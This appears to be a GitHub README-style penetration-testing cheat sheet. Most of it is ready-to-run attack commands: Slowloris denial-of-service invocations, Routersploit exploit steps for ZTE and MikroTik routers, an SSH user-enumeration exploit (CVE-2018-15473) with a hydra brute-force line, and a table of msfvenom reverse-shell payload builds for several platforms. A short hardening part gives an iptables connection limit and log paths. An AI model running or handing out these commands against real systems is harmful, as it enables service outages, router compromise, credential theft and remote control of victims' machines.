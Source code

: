 
## OSI Layer

| No | Layer | Example |
| --- | --- | --- |
| 7 | Application | SMTP |
| 6 | Presentation | HTTPS, SSL, TLS |
| 5 | Session | NetBIOS, PPTP |
| 4 | Transport | TCP, UDP |
| 3 | Network | Router, IP, ICMP |
| 2 | Data Link | Switch |
| 1 | Physical | Hub, NIC, Cable |

## Denial Of Service
Slowloris (GET Exploit)
Perl Example
```
perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
``` 
Slowloris Python (GET Exploit)
Source : https://github.com/gkbrk/slowloris
-----
Install
```
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
```
Running
```
python3 slowloris.py [IP_TARGET] --port 80 --sleeptime 1000
```
## Anonymousdoser (POST Exploit)
Source : 
```
Website [URL/IP] : [IP_TARGET]
Time [Seconds] : 9999
```
## Harderning
IP Tables
```
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 20 --connlimit-mask 40 -j DROP
```
Log Apache & Nginx
```
/var/log/apache2/access.log
/var/log/nginx/access.log
```
Live Running Log
```
tail -f ./access.log
```

# Routersploit
## Routersploit
Exploit For Router HGU, Mikrotik, IPCAM, etc.
---
Source : https://github.com/threat9/routersploit
---
Case Router ZTE_F609 and ZTE_F660
```
show exploits
search zte
use exploits/routers/zte/f609_config_disclosure
use exploits/routers/zte/f660_config_disclosure
show options
set target [IP_TARGET]
exploit
```
Case Router MikroTik 6.29-6.42 (Port 8291)
```
search mikrotik 6.29 - 6.42	=> 8291
use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
show options
set target [IP_TARGET]
exploit
```

# Scanning
## Scanning Port and Service
NMAP
```
nmap -sn [RANGE_IP]
nmap -A [IP_TARGET]
```
Netdiscovery
```
netdiscovery
```
Nbtscan
```
nbtscan [NETWORK_IP]
```

# Brute Force SSH (OpenSSH 2.3 < 7.7)
## Brute Force CVE-2018-15473
Source : https://www.exploit-db.com/exploits/45233
Running Exploit 
```
python3 45233.py --userList user.txt [IP_TARGET] --outputFile hasil.txt
hydra -L user.txt -P pass.txt [IP_TARGET] ssh
```

# Metasploit
## Payload Msvenom
Payload Reverse Shell

| Target | Example |
| --- | --- |
| Android | msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP_ATTACKER] LPORT=4444 R > payload.apk |
| Windows Staged | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Windows Stageless | msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe |
| Linux | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf >reverse.elf |
| OSX | msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho |
| Python | msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py |
| PHP | msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4444 -f raw > shell.php; cat shell.php \| pbcopy && echo '<?php ' \| tr -d '\n' > shell.php && pbpaste >> shell.php |
| Bash | msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh |

## Meterpreter

# MITM (Man In The Middle)
## Ethercap
## SSLStrip


